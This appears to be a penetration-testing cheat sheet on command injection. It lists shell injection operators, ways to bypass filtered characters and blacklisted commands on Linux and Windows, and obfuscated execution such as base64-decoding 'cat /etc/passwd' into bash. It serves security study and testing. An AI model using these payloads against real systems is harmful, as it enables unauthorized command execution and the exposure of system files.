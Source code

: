 # Command Injection

## Injection Operators

<table data-header-hidden><thead><tr><th width="164"></th><th width="170"></th><th width="138"></th><th width="245"></th></tr></thead><tbody><tr><td><strong>Injection Operator</strong></td><td><strong>Injection Character</strong></td><td><strong>URL-Encoded Character</strong></td><td><strong>Executed Command</strong></td></tr><tr><td>Semicolon</td><td><code>;</code></td><td><code>%3b</code></td><td>Both</td></tr><tr><td>New Line</td><td></td><td><code>%0a</code></td><td>Both</td></tr><tr><td>Background</td><td><code>&#x26;</code></td><td><code>%26</code></td><td>Both (second output generally shown first)</td></tr><tr><td>Pipe</td><td><code>|</code></td><td><code>%7c</code></td><td>Both (only second output is shown)</td></tr><tr><td>AND</td><td><code>&#x26;&#x26;</code></td><td><code>%26%26</code></td><td>Both (only if first succeeds)</td></tr><tr><td>OR</td><td><code>||</code></td><td><code>%7c%7c</code></td><td>Second (only if first fails)</td></tr><tr><td>Sub-Shell</td><td><code>``</code></td><td><code>%60%60</code></td><td>Both (Linux-only)</td></tr><tr><td>Sub-Shell</td><td><code>$()</code></td><td><code>%24%28%29</code></td><td>Both (Linux-only)</td></tr></tbody></table>

***

## Linux

### Filtered Character Bypass

<table><thead><tr><th width="207">Code</th><th>Description</th></tr></thead><tbody><tr><td><code>printenv</code></td><td>Can be used to view all environment variables</td></tr><tr><td><strong>Spaces</strong></td><td></td></tr><tr><td><code>%09</code></td><td>Using tabs instead of spaces</td></tr><tr><td><code>${IFS}</code></td><td>Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. <code>$()</code>)</td></tr><tr><td><code>{ls,-la}</code></td><td>Commas will be replaced with spaces</td></tr><tr><td><strong>Other Characters</strong></td><td></td></tr><tr><td><code>${PATH:0:1}</code></td><td>Will be replaced with <code>/</code></td></tr><tr><td><code>${LS_COLORS:10:1}</code></td><td>Will be replaced with <code>;</code></td></tr><tr><td><code>$(tr '!-}' '"-~'&#x3C;&#x3C;&#x3C;[)</code></td><td>Shift character by one (<code>[</code> -> <code>\</code>)</td></tr></tbody></table>

***

### Blacklisted Command Bypass

<table><thead><tr><th width="424">Code</th><th>Description</th></tr></thead><tbody><tr><td><strong>Character Insertion</strong></td><td></td></tr><tr><td><code>'</code> or <code>"</code></td><td>Total must be even</td></tr><tr><td><code>$@</code> or <code>\</code></td><td>Linux only</td></tr><tr><td><strong>Case Manipulation</strong></td><td></td></tr><tr><td><code>$(tr "[A-Z]" "[a-z]"&#x3C;&#x3C;&#x3C;"WhOaMi")</code></td><td>Execute command regardless of cases</td></tr><tr><td><code>$(a="WhOaMi";printf %s "${a,,}")</code></td><td>Another variation of the technique</td></tr><tr><td><strong>Reversed Commands</strong></td><td></td></tr><tr><td><code>echo 'whoami' | rev</code></td><td>Reverse a string</td></tr><tr><td><code>$(rev&#x3C;&#x3C;&#x3C;'imaohw')</code></td><td>Execute reversed command</td></tr><tr><td><strong>Encoded Commands</strong></td><td></td></tr><tr><td><code>echo -n 'cat /etc/passwd | grep 33' | base64</code></td><td>Encode a string with base64</td></tr><tr><td><code>bash&#x3C;&#x3C;&#x3C;$(base64 -d&#x3C;&#x3C;&#x3C;Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)</code></td><td>Execute b64 encoded string</td></tr></tbody></table>

***

## Windows

### Filtered Character Bypass

<table><thead><tr><th width="246">Code</th><th width="487">Description</th></tr></thead><tbody><tr><td><code>Get-ChildItem Env:</code></td><td>Can be used to view all environment variables - (PowerShell)</td></tr><tr><td><strong>Spaces</strong></td><td></td></tr><tr><td><code>%09</code></td><td>Using tabs instead of spaces</td></tr><tr><td><code>%PROGRAMFILES:~10,-5%</code></td><td>Will be replaced with a space - (CMD)</td></tr><tr><td><code>$env:PROGRAMFILES[10]</code></td><td>Will be replaced with a space - (PowerShell)</td></tr><tr><td><strong>Other Characters</strong></td><td></td></tr><tr><td><code>%HOMEPATH:~0,-17%</code></td><td>Will be replaced with <code>\</code> - (CMD)</td></tr><tr><td><code>$env:HOMEPATH[0]</code></td><td>Will be replaced with <code>\</code> - (PowerShell)</td></tr></tbody></table>

***

### Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"`                                                                                                   | Total must be even                       |
| `^`                                                                                                          | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
